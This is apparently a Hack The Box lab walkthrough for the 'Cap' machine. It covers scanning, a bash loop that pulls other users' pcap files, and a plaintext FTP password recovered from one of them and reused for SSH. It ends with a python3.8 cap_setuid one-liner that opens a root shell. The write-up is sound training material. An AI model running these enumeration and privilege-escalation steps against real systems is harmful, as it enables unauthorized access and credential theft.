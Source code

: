 ```yaml
---
title: "[EASY] HTB-Cap"
draft: false
tags:
  - htb
  - linux
  - ftp
  - pcap
  - wireshark
  - setuid
  - capabilities
---
```

## Information Gathering
### Rustscan

**Rustscan** finds **FTP**, **SSH**, and **HTTP** open:

```bash
┌──(yoon㉿kali)-[~/Documents/htb/cap]
└─$ rustscan --addresses 10.10.10.245 --range 1-65535
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
<snip>
Host is up, received conn-refused (1.6s latency).
Scanned at 2024-04-06 11:41:43 EDT for 4s

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 6.91 seconds
```

### Nmap

Nmap finds nothing much:

```bash
┌──(yoon㉿kali)-[~/Documents/htb/cap]
└─$ sudo nmap -sVC -p 21,22,80 10.10.10.245                 
[sudo] password for yoon: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-06 11:42 EDT
Nmap scan report for 10.10.10.245 (10.10.10.245)
Host is up (0.98s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
| fingerprint-strings: 
|   FourOhFourRequest: 
<snip>
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 249.78 seconds
```

## Enumeration
### FTP - TCP 21

It seems like anonymous login is not allowed, I would have to come back to FTP with valid credentials:

![](https://i.imgur.com/2sL4k9k.png)



### HTTP - TCP 80

The website shows a security dashboard for user **Nathan**:

![](https://i.imgur.com/NwArXML.png)


Going to `/capture` will read me to `http://10.10.10.245/data/1`, where I can download packets pcap file:

![](https://i.imgur.com/8hONvPE.png)


After downloading, I can see all the packets that is being sent from my IP to the target server:

![](https://i.imgur.com/pGmkEWY.png)


`http://10.10.10.245/netstat` shows network running on server:

![](https://i.imgur.com/2lp23J1.png)


`http://10.10.10.245/ip` shows the result of **ifconfig** command:

![](https://i.imgur.com/I1JJOii.png)

Directory Bruteforcing finds nothing intriguing:

`sudo feroxbuster -u http://10.10.10.245 -n -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -C 404`

![](https://i.imgur.com/lwBVQxd.png)

## Shell as Nathan
### Bruteforce on /download

I tried Command Injection on `/netstat` and `/ip` parameters but both weren't vulnerable. So I will move on to bruteforcing `/data/<number>` since there might be a download from other users as well.

Using bash script, I can automate this procedure, which will download files from `/download/0` to `/download/100`:

```bash
#!/bin/bash

# Loop from 1 to 100
for ((i = 0; i <= 100; i++)); do
    url="http://10.10.10.245/download/$i"

    # Check if the URL returns non-empty content
    response=$(curl -s -o /dev/null -w "%{http_code}" "$url")
    
    # If the response is not empty (HTTP status 200), download the file
    if [ "$response" == "200" ]; then
        echo "Downloading file $i..."
        curl -O "$url"
    else
        echo "Skipping file $i (HTTP $response)"
    fi
done
```


Running the bash script discovered one more download which is /download/0`:

![](https://i.imgur.com/DfI7eul.png)


Before analyzing the file **0** with **Wireshark**, I will hunt for keyword **pas** and it discovers: **Buck3tH4TF0RM3!**

`strings 0 | grep -i 'pass'`

![](https://i.imgur.com/pUKoWji.png)

Opening file **0** using Wireshark shows that found password is from user **Nathan** during he's FTP authentication:

![](https://i.imgur.com/kzod7lD.png)

We can see it in plain text by following the TCP Stream:

![](https://i.imgur.com/VOoRwmJ.png)



### FTP nathan

Using the found credentials, I can sign-in to FTP as **nathan**:

![](https://i.imgur.com/MRghB9l.png)


Below is how `/var/www/html` is consisted for this server and we can view all the **.pcap** files on `/var/www/html/upload`:

![](https://i.imgur.com/VTSDg5E.png)

Since FTP shell is restrictive to commands, I tried to upload reverse shell to `/var/www/html` but permission was denied for all the folder.

Luckily, **nathan** is reusing the same password for his SSH connection as well so I can obtain a stable shell through SSH.

## Privesc: nathan to root

Running **linpeas.sh** discovers **capabilites** on **python3.8**:


![](https://i.imgur.com/vL4vE6P.png)

**cap_setuid** has the following ability according to the man page:

> * Make arbitrary manipulations of process UIDs (setuid(2), setreuid(2), setresuid(2), setfsuid(2)); * forge UID when passing socket credentials via UNIX domain sockets; * write a user ID mapping in a user namespace (see user_namespaces(7)).


I can abuse this capability following guide from [GTFOBins](https://gtfobins.github.io/gtfobins/python/): 

![](https://i.imgur.com/LlCkMFT.png)


Running the command from above, It instantly give me shell as the root:

`/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'`

![](https://i.imgur.com/GgiF1oF.png)


## References
- https://gtfobins.github.io/gtfobins/python/